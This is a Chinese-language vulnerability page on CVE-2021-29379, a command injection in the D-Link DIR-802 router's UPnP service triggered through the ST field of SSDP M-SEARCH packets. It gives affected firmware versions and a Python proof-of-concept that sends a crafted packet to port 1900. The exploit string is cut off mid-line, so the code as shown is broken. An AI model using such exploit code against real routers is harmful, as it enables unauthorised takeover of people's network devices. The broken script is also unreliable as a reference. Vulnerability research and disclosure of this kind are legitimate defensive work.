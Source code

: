 # D-Link DIR-802 命令注入漏洞 CVE-2021-29379

# D-Link DIR-802 命令注入漏洞 CVE-2021-29379

## 漏洞描述

DIR-802中存在一个命令注入漏洞，攻击者可以通过精心制作的M-SEARCH数据包向UPnP注入任意命令。

与CVE-2020-15893相似，在固件版本v-1.00b05之前的D-Link DIR-802 A1上发现了一个问题。默认情况下，端口1900上启用了通用即插即用（UPnP）。攻击者可以通过将有效负载注入SSDP M-SEARCH发现数据包的“搜索目标”（ST）字段来执行命令注入。

参考链接：

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29379
- https://cool-y.github.io/2021/03/02/DIR-802-OS-Command-Injection/

## 漏洞影响

```
DIR-802 hardware revision Ax before v1.00b05
```

## 漏洞复现

poc：

```python
# coding: utf-8
import socket
import struct
buf = 'M-SEARCH * HTTP/1.1\r\nHOST:192.168.0.1:1900\r\nST:urn:schemas-upnp-org:service
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.connect(("192.168.0.1", 1900))
s.send(buf)
s.close()
```


